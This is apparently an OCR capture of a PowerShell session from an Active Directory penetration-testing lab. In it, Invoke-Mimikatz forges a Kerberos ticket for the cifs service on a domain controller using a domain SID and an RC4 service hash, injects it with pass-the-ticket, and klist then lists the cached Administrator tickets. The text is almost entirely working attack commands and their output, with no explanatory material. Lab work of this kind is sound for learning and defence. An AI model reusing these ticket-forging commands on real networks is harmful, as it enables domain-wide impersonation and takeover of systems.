 ```
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ dollarcorp.moneycorp.local' successfully submitted for current session

PS C:\AD\Tools\tickets> Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-187
4506631-3219952063-538504511 /target:dcorp-dc /service:cifs /rc4:4a06e5988918bc0a64747d0881823fac /user:Administrator /p
tt"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511
 /target:dcorp-dc /service:cifs /rc4:4a06e5988918bc0a64747d0881823fac /user:Administrator /ptt
User      : Administrator
Domain    : dollarcorp.moneycorp.local (DOLLARCORP)
SID       : S-1-5-21-1874506631-3219952063-538504511
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4a06e5988918bc0a64747d0881823fac - rc4_hmac_nt
Service   : cifs
Target    : dcorp-dc
Lifetime  : 1/25/2021 6:26:05 AM ; 1/23/2031 6:26:05 AM ; 1/23/2031 6:26:05 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ dollarcorp.moneycorp.local' successfully submitted for current session

PS C:\AD\Tools\tickets> klist

Current LogonId is 0:0x13e49c3

Cached Tickets: (2)

#0>     Client: Administrator @ dollarcorp.moneycorp.local
        Server: cifs/dcorp-dc @ dollarcorp.moneycorp.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 1/25/2021 6:26:05 (local)
        End Time:   1/23/2031 6:26:05 (local)
        Renew Time: 1/23/2031 6:26:05 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:

#1>     Client: Administrator @ dollarcorp.moneycorp.local
        Server: cifs/dcorp-dc.dollarcorp.moneycorp.local @ dollarcorp.moneycorp.local
```